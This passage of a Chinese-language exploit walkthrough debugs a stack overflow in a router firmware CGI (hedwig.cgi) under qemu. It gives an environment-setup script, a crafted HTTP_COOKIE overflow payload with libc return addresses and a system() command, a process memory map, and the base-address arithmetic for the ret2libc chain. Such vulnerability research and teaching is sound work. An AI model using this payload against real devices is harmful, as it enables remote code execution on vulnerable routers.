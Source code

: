 下面改用qemu的system模式进行调试

注意：这里使用2.x低版本内核的时候gdbserver无法外联，使用高版本3.x的内核后成功外联调试

设置环境变量脚本

```sh
#set_environment.sh
INPUT="uid=1234"
TEST="$1"
LEN=$(echo -n "$INPUT" | wc -c)
export CONTENT_LENGTH=$LEN
export CONTENT_TYPE="application/x-www-form-urlencodede"
export SCRIPT_NAME="common"
export REQUEST_METHOD="POST"
export HTTP_COOKIE=$TEST
export REQUEST_URI="/hedwig.cgi"
export REMOTE_ADDR="192.168.33.2"
```

在qemu-system虚拟机中设置环境变量并运行程序（只有运行加载动态库后才能看到动态库的基地址）

```sh
#设置环境变
source set_environment.sh `python -c "print 'uid='+'A'*973+'\xff\xb1\x78\x76'+'B'*(993-973-4)+'\xcc\xd9\x74\x76'+'C'*(1009-993-4)+'\xc8\xd8\x74\x76'+'D'*(1029-1009-4)+'ls'+'\x00'"`
#运行程序
chroot . ./gdbserver 192.168.33.103:1234 ./htdocs/web/hedwig.cgi
#查看进程内存情况
cat /proc/2792/maps
00400000-0041c000 r-xp 00000000 08:01 788479     /root/squashfs-root/htdocs/cgibin
0042c000-0042d000 rw-p 0001c000 08:01 788479     /root/squashfs-root/htdocs/cgibin
0042d000-00430000 rwxp 00000000 00:00 0          [heap]
77f34000-77f92000 r-xp 00000000 08:01 789209     /root/squashfs-root/lib/libuClibc-0.9.30.1.so
77f92000-77fa1000 ---p 00000000 00:00 0
77fa1000-77fa2000 r--p 0005d000 08:01 789209     /root/squashfs-root/lib/libuClibc-0.9.30.1.so
77fa2000-77fa3000 rw-p 0005e000 08:01 789209     /root/squashfs-root/lib/libuClibc-0.9.30.1.so
77fa3000-77fa8000 rw-p 00000000 00:00 0
77fa8000-77fd1000 r-xp 00000000 08:01 789210     /root/squashfs-root/lib/libgcc_s.so.1
77fd1000-77fe1000 ---p 00000000 00:00 0
77fe1000-77fe2000 rw-p 00029000 08:01 789210     /root/squashfs-root/lib/libgcc_s.so.1
77fe2000-77fe7000 r-xp 00000000 08:01 789188     /root/squashfs-root/lib/ld-uClibc-0.9.30.1.so
77ff5000-77ff6000 rw-p 00000000 00:00 0
77ff6000-77ff7000 r--p 00004000 08:01 789188     /root/squashfs-root/lib/ld-uClibc-0.9.30.1.so
77ff7000-77ff8000 rw-p 00005000 08:01 789188     /root/squashfs-root/lib/ld-uClibc-0.9.30.1.so
7f7f8000-7fff7000 rwxp 00000000 00:00 0          [stack]
7fff7000-7fff8000 r-xp 00000000 00:00 0          [vdso]
file ./lib/libc.so.0
./lib/libc.so.0: symbolic link to libuClibc-0.9.30.1.so
```

所以这里的libc.so.0的基地址时0x77f34000，所以这里的填充地址要重新计算

$s0=offset_system-0x1=0x77f34000+0x53200-0x1=0x77f871ff
